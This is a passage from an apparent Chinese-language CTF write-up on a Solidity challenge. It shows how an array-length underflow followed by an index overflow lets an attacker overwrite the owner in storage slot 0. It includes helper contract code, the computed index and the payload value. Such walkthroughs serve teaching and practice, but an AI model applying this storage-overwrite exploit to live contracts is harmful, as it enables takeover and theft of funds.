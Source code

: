 动态bytes数组codex的length一开始为0，因此retract函数对其--，导致可整形下溢出，它的length变的特别大，足以覆盖整个storage。
再看`revise()`函数，往整个动态数组中写东西，联想到计算公式：

```javascript
keccak256(p)
keccak256(p)+1
keccak256(p)+2
keccak256(p)+3
...........
```
我们目前知道，owner在slot0，contact也在slot0，codex的长度在slot1，因此p为1，因此`codex[i]`就在`keccak256(1)+i`。这里又要用到整形溢出了，因此要覆盖slot0，而一开始的`keccak256(1)`肯定是比0大的，因此就要靠i，去再次溢出uint256，从而让值`keccak256(1)+i`为0。

因此要算出这个i，让这个i是键：

```javascript
contract Feng {
    bytes32 public a1 = keccak256(1); 
    bytes32 public a2 = keccak256("1");          
    bytes32 public a3 = keccak256(bytes32(1));  //true
    bytes32 public a4 = keccak256(uint(1));  //true
    bytes32 public f1= keccak256(abi.encodePacked(1)); 
    bytes32 public f2= keccak256(abi.encodePacked("1")); 
    bytes32 public f3= keccak256(abi.encodePacked(bytes32(1))); //true
    bytes32 public f4= keccak256(abi.encodePacked(uint(1))); //true
    uint public result = 2**256-1 - uint(f4) +1;
}
```
这个是我一开始就踩了坑的地方，注意算的时候，p的类型一定要是uint或者bytes32，否则算出来的就是错的，映射也同理。

算出来是`35707666377435648211887908874984608119992236509074197713628505308453184860938`
然后设置传revise函数即可：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210414204932642.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3JmcmRlcg==,size_16,color_FFFFFF,t_70)

```javascript
35707666377435648211887908874984608119992236509074197713628505308453184860938
0x0000000000000000000000017D11f36fA2FD9B7A4069650Cd8A2873999263FB8
```
因为slot0的后10字节是owner，从右往左数第十一字节是contact。



